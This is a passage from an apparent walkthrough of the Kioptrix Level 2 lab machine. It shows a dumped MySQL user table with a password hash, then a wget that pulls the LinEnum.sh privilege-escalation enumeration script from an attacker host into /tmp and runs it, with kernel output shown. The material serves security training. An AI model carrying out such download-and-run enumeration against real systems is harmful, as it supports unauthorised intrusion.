 ```bash
| localhost             | john | 5a6914ba69e02807 | Y           | Y           | Y           | Y           | N           | N         | N           | N             | N            | N         | N          | N               | N          | N          | N            | N          | N                     | N                | N            | N               | N                |          |            |             |              |             0 |           0 |               0 |
+-----------------------+------+------------------+-------------+-------------+-------------+-------------+-------------+-----------+-------------+---------------+--------------+-----------+------------+-----------------+------------+------------+--------------+------------+-----------------------+------------------+--------------+-----------------+------------------+----------+------------+-------------+--------------+---------------+-------------+-----------------+
5 rows in set (0.00 sec)

mysql>
```
Within this table there is another user/password combo of `root:5a6914ba69e02807`. Despite all these credentials, none of them appear to be valid for actual user accounts on the machine, so this is a dead end for now.

### 6. Enumerate further
I'll use an enumeration script to gather more information on the machine. (see linenum_out.txt).
```bash
cd /tmp
wget http://10.1.1.74:8000/LinEnum.sh
--00:31:01--  http://10.1.1.74:8000/LinEnum.sh
           => `LinEnum.sh'
Connecting to 10.1.1.74:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46,631 (46K) [text/x-sh]

100%[====================================>] 46,631        --.--K/s             

00:31:01 (59.29 MB/s) - `LinEnum.sh' saved [46631/46631]
bash LinEnum.sh

#########################################################
# Local Linux Enumeration & Privilege Escalation Script #
#########################################################
# www.rebootuser.com
# version 0.982

[-] Debug Info
[+] Thorough tests = Disabled


Scan started at:
Tue Oct 27 00:31:20 EDT 2020                                                                                                                                                                        
                                                                                                                                                                                                    

### SYSTEM ##############################################
[-] Kernel information:
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux


[-] Kernel information (continued):
Linux version 2.6.9-55.EL (mockbuild@builder6.centos.org) (gcc version 3.4.6 20060404 (Red Hat 3.4.6-8)) #1 Wed May 2 13:52:16 EDT 2007


[-] Specific release information:
CentOS release 4.5 (Final)


```